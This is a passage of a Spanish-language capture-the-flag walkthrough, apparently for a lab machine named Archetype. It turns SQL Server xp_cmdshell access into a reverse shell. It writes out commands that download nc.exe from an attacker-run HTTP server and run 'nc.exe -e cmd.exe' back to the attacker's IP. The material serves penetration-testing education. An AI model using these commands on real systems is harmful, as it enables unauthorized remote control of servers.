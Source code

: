 Podemos ver que el usuario `archetype\sql_svc` se muestra nuevamente, lo que indica que SQL Server se está ejecutando con ese usuario en Windows. El valor `NULL` aparece, lo que significa que no tiene permisos de administrador.

Nuestra shell está funcionando, pero no vamos a ejecutar nuestros comandos de esta manera nuevamente, así que vamos a obtener una shell más estable. Ahora vamos a buscar y encontrar algo.

Después de algunas búsquedas, encontramos un artículo: [https://pentestwiki.org/academy/how-to-get-a-xp\_cmdshell-reverse-shell/](https://pentestwiki.org/academy/how-to-get-a-xp\_cmdshell-reverse-shell/)

Seguiremos el último método: xp\_cmdshell con `nc`.

1. **Descargar `nc.exe` en tu sistema local**: Puedes descargar `nc.exe` desde el siguiente enlace: [https://github.com/int0x33/nc.exe/blob/master/nc.exe](https://github.com/int0x33/nc.exe/blob/master/nc.exe)
2.  **Configurar un servidor Python en tu máquina local**: Inicia un servidor HTTP en la carpeta donde se encuentra `nc.exe` con el siguiente comando:

    ```bash
    python3 -m http.server
    ```
3.  **Transferir el archivo al sistema objetivo**: Usaremos el siguiente comando en el sistema objetivo para descargar `nc.exe`:

    ```sql
    xp_cmdshell "powershell.exe wget http://10.10.16.97:8000/nc.exe -OutFile c:\\Users\\Public\\nc.exe"
    ```
4.  **Verificar la transferencia del archivo**: Si el archivo se transfiere correctamente, deberías ver algo como esto en tu instancia de servidor:

    ```bash
    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
    10.129.187.129 - - [02/Sep/2024 19:42:04] "GET /nc.exe HTTP/1.1" 200 -
    ```
5.  **Configurar el listener de Netcat en tu máquina local**: Inicia un listener en Netcat con el siguiente comando:

    ```bash
    nc -lvnp 4444
    ```
6.  **Ejecutar el archivo `nc.exe` en el sistema objetivo**: Ejecuta el siguiente comando en el sistema objetivo para establecer la conexión inversa:

    ```sql
    xp_cmdshell "c:\\Users\\Public\\nc.exe -e cmd.exe 10.10.16.97 4444"
    ```

<figure><img src="../../../.gitbook/assets/image (558).png" alt=""><figcaption></figcaption></figure>
